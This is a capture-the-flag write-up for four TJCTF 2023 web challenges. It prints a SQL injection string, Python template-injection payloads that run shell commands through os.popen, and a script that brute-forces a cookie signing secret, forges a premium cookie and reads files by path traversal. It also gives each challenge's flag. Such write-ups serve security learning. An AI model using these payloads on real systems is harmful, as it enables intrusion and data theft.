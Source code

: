 # Web challenges in TJCTF 2023
- [hi](#hi)
- [swill-squill](#swill-squill)
- [outdated](#outdated)
- [pay-to-win](#pay-to-win)

-----

## hi

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/d1bf92ee-d474-4bb6-9a0b-0dedf8b4c38a)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/11d70c38-edd4-4676-a276-f70ee50410e6)

Nothing interesting in the website. But there is something interesting in the source.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/af75691d-0cc6-4bd9-940f-230fc6c765c6)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f3791466-1a0f-45f7-bb95-952bd7e394f3)

Flag: `tjctf{pretty_canvas_577f7045}`

-----

## swill-squill

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/f96c4654-7412-44fe-952a-8712b2f4cbf0)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/358fe78e-55b0-4984-b23d-3b1a9d6cee25)

This is vulnerable to basic `' or 1=1 ; --` SQL injection.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/cb9c8d95-9877-40ce-9926-c8e87003b62b)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/93c86016-9219-4c20-bd7f-7281803c06c9)

Flag: `tjctf{swill_sql_1y1029345029374}`

-----

## outdated

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/fdfb692b-6471-4e58-8042-54f3e0e4a3f4)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/8c71c4bb-540a-47dd-9634-a5cae54556b2)

Some blacklisted items here but its essentially a SSTI sort of. I tried a basic payload.

`print(''.__class__.__mro__[1].__subclasses__())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/eb00a81f-7428-4cff-8683-3b7c88001e63)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/da577c04-8ffc-4092-8475-3b53734cf0d2)

4th last item is my [favourite](https://blog.p6.is/Python-SSTI-exploitable-classes/#Using-os-wrap-close){:target="_blank" rel="noopener"}.

`print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].popen('ls').read())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/04537d2d-ec8a-4aae-910a-e967aadefb56)

`print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['sys'].modules['os'].popen('cat flag-cce1c56d-466d-4af9-8ae7-c7bcf99d5c49.txt').read())`

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0590a762-f28d-4ba3-9789-b6cb9f8219db)

Flag: `tjctf{oops_bad_filter_3b582f74}`

-----

## pay-to-win

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/13e85289-50bc-453b-a680-b6840b097627)

Need to bypass this so need to bruteforce the 6 character key.

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/0f5b034a-b483-47d4-aebb-2a332bbbba0b)

Getting premium allows us to load anything. Like the flag

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/eca7551c-58cf-4dec-908c-9f22d5c519c0)

![image](https://github.com/jeromepalayoor/ctf-archive-hub/assets/63996033/493c079d-4191-4fad-b75a-76fe380942da)

```py
import requests
import hashlib
import itertools

characters = 'abcdefghijklmnopqrstuvwxyz0123456789'
length = 6
combinations = itertools.product(characters, repeat=length)

url = 'https://pay-to-win.tjc.tf/'

new = "eyJ1c2VybmFtZSI6ICJqZXJvbWUiLCAidXNlcl90eXBlIjogInByZW1pdW0ifQ==" #'{"username": "jerome", "user_type": "premium"}'
old = "eyJ1c2VybmFtZSI6ICJqZXJvbWUiLCAidXNlcl90eXBlIjogImJhc2ljIn0=" #'{"username": "jerome", "user_type": "basic"}'
h = "46378b50e362bb73a60886b2d55957b6a79acd1ae8d6069a7bce2fbbda3f640c"


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()

actual_secret = ""
actual_hash = ""

for c in combinations:
    secret = ''.join(c)
    hashed = hash(old + secret)

    if hashed == h:
        actual_secret = secret
        actual_hash = hash(new + secret)
        break

print(actual_secret)
print(actual_hash)

r = requests.get(url + "?theme=/secret-flag-dir/flag.txt", cookies={'data': new, 'hash': actual_hash})

print(r.text)
```

Flag: `tjctf{not_random_enough_64831eff}`
